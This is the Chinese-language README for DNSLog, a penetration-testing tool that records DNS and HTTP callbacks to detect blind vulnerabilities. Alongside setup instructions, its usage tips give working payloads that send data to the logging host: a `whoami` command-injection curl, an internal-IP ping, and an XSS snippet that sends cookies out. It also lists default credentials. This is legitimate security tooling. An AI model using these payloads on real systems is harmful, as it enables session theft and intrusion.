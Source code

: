 ```
 ____  _   _ ____  _
|  _ \| \ | / ___|| |    ___   __ _
| | | |  \| \___ \| |   / _ \ / _` |
| |_| | |\  |___) | |__| (_) | (_| |
|____/|_| \_|____/|_____\___/ \__, |
                              |___/
```
[![Python 2.6|2.7](https://img.shields.io/badge/python-2.6|2.7-yellow.svg)](https://www.python.org/)   [![License](https://img.shields.io/badge/license-GPLv2-red.svg)](https://raw.githubusercontent.com/BugScanTeam/dnslog/master/GPL-2.0) 

简介
---

DNSLog 是四叶草安全旗下 BugscanTeam 打造的一款监控 DNS 解析记录和 HTTP 访问记录的工具，在检测盲注类漏洞时有着非常重要的作用，是分布式漏洞扫描框架 BugScan 中核心库之一。

DNSLog 基于 Django 框架编写，将 DNSServer 集成进 DNSLog 中，使用者可轻松搭建使用环境。

你可以点击这里访问： [演示站点](https://admin.dnslog.link)

安装
---

1. 获取源代码

 你可以通过用 Git 来克隆代码仓库中的最新源代码

 ```
 $ git clone git@github.com:BugScanTeam/DNSLog.git
 ```

 或者你可以点击 [这里](https://github.com/BugScanTeam/DNSLog/archive/master.zip) 下载最新的源代码 zip 包,并解压

 ```
 $ wget https://github.com/BugScanTeam/DNSLog/archive/master.zip
 $ unzip master.zip
 ```

2. 安装依赖环境


需要python2环境，如果使用python3环境会出现 “ No module named 'models' ”


 DNSLog 使用前需要安装 Django 1.8 与 dnslib ，如果已经安装可跳过此步

 ```
 $ cd dnslog
 $ pip install -r requirements.pip
 ```
3. 域名与公网 IP 准备
    
    搭建并使用 DNSLog，你需要拥有两个域名，一个域名作为 NS 服务器域名(例:a.com)，一个用于记录域名(例: b.com)。还需要有一个公网 IP 地址(如：1.1.1.1)
    
    **注意：b.com 的域名提供商需要支持自定义 NS 记录, a.com 则无要求。**
    
    1. 在 a.com 中设置两条 A 记录：

        ```
        ns1.a.com  A 记录指向  1.1.1.1        
        ns2.a.com  A 记录指向  1.1.1.1
        ```
    2. 修改 b.com 的 NS 记录为 1 中设定的两个域名

        > 本步骤中，需要在域名提供商提供的页面进行设置，部分域名提供商只允许修改 NS 记录为已经认证过的 NS 地址。所以需要找一个支持修改 NS 记录为自己 NS 的域名提供商。
    
    **注意: NS 记录修改之后部分地区需要 24-48 小时会生效**

4. 修改配置文件
    
 修改 `dnslog/dnslog/settings.py` 文件中相关配置：
 
 > 配置文件中的域名对应关系与步骤 3 相同
 
 ```
    # 做 dns 记录的域名
    DNS_DOMAIN = 'b.com'
    
    # 记录管理的域名, 这里前缀根据个人喜好来定
    ADMIN_DOMAIN = 'admin.b.com'
    
    # NS域名
    NS1_DOMAIN = 'ns1.a.com'
    NS2_DOMAIN = 'ns2.a.com'
    
    # 服务器外网地址
    SERVER_IP = '1.1.1.1'
 ```

5. 启动服务

 ```
 $ cd dnslog/
 $ sudo python manage.py runserver 0.0.0.0:80
 ```
 
 **Django web 默认启动端口为 8000，若要启动在 80 端口则需要 root 权限**
 
 > 如果不想启动在 80 端口，但又想在使用 HTTP 的时候不加端口号，可以自己安装 Nginx，对 b.com 做反向代理
 
 Nginx 反向代理参考脚本：
 
```nginx
server {
        listen 443;
        ssl on;
        ssl_certificate /etc/nginx/certs/*.xxx.com/fullchain;
        ssl_certificate_key /etc/nginx/certs/*.xxx.com/key;
        server_name *.hackhttp.com;
        location /static {
                alias /var/www/dnslog/static;
        }
        location / {
                proxy_pass http://127.0.0.1:8000/;
                proxy_redirect off;
                proxy_set_header Host $host;
                proxy_set_header X-Real-IP $remote_addr;
                proxy_set_header X-Forwarded-For $remote_addr;
                proxy_set_header X-Forwarded-Proto $scheme;
        }

}
```

6. https泛证书申请(let's encrypt)

    1. 安装acme `curl  https://get.acme.sh | sh`
    1. 单独启动dns服务器 `python zoneresolver.py`
    1. 添加acme的api脚本
        ```bash
        cp acme.sh/dns_log.sh /root/.acme.sh/dnsapi/dns_log.sh
        chmod +x /root/.acme.sh/dnsapi/dns_log.sh
        ```
    1. 申请证书

        `acme.sh --issue -d "*.xxx.com" --dns dns_log --debug --dnssleep 10`

    1. 安装证书

        ```bash
        mkdir -p /etc/nginx/certs/\*.xxx.com/
        acme.sh --install-cert -d \*.xxx.com \
        --cert-file /etc/nginx/certs/\*.xxx.com/cert \
        --key-file /etc/nginx/certs/\*.xxx.com/key \
        --fullchain-file /etc/nginx/certs/\*.xxx.com/fullchain \
        --reloadcmd "nginx -s reload"
        ```

    acme会自动检查证书是否过期，当申请到新证书后也会自动重启nginx让证书生效

---

### 站点管理

 启动服务成功后，访问 `http://b.com/admin/` 进入后台
 
 > 管理员用户名密码默认均为 admin
 
 如果忘记管理员密码，可进入 dnslog 目录下，执行如下命令重设管理员密码
 
 ```
 python manage.py changepassword admin 
 ```

### 普通用户

 在 User 表中添加使用用户的信息，表中默认已经存在 `test/123456` 这个用户。
 
 访问 `http://admin.b.com` (ADMIN_DOMAIN 指定的域名)，输入用户名密码登录。
 
 访问后会在下方看到自己的二级域名，例如 test.b.com，当请求 test.b.com 这个二级域名下的任意子域时，都会被记录，例如: demo.test.b.com。

使用技巧
---

### 命令盲注利用

对于一些命令盲注类的漏洞，可以通过 DNSLog 中的 WebLog 部分将其转化为有回显的命令执行：

```
curl "http://testhash.test.dnslog.link/?`whoami`"
```

**在 Web 控制台下看到结果：**

\#    |    path    |    ip    |    ua    | date
---|---|---|---|---
146    | testhash.test.dnslog.link/?root |    xxx.xxx.xxx.xxx |    curl/7.43.0    | 2016-05-10 07:36:47


### DNS记录中获取源IP地址

详见 [issue#3](https://github.com/BugScanTeam/DNSLog/issues/3)

```
ping -c 3 `ifconfig en0|grep "inet "|awk '{print $2}'`.test.dnslog.link
```

效果如下：

```
➜  ~ ping -c 3 `ifconfig en0|grep "inet "|awk '{print $2}'`.test.dnslog.link
PING 192.168.10.167.test.dnslog.link (106.186.118.146): 56 data bytes
64 bytes from 106.186.118.146: icmp_seq=0 ttl=52 time=259.491 ms
64 bytes from 106.186.118.146: icmp_seq=1 ttl=52 time=307.566 ms
64 bytes from 106.186.118.146: icmp_seq=2 ttl=52 time=352.757 ms

--- 192.168.10.167.test.dnslog.link ping statistics ---
3 packets transmitted, 3 packets received, 0.0% packet loss
round-trip min/avg/max/stddev = 259.491/306.605/352.757/38.082 ms
```

### XSS 盲打

在有 XSS 漏洞的页面加入类似如下代码：

```
var s=document.createElement('img');
s.src="http://xss.test.dnslog.link/?url="+document.location+"&cookie="+document.cookie;
document.head.appendChild(s);
```

以 `httpbin.org` 为例，一旦触发，在 WebLog 中可以看到：

\#    |    path    |    ip    |    ua    | date
---|---|---|---|---
146    | xss.test.dnslog.link/?url=http://httpbin.org/&cookie=_ga=GA1.2.17.142 |    xxx.xxx.xxx.xxx |    Mozilla/5.0 xxx    | 2016-06-18


相关链接
---

* [版权声明](./GPL-2.0)
* [BugScan 社区官网](http://www.bugscan.net)
* [DNSLog 示例站点](http://admin.dnslog.link/)
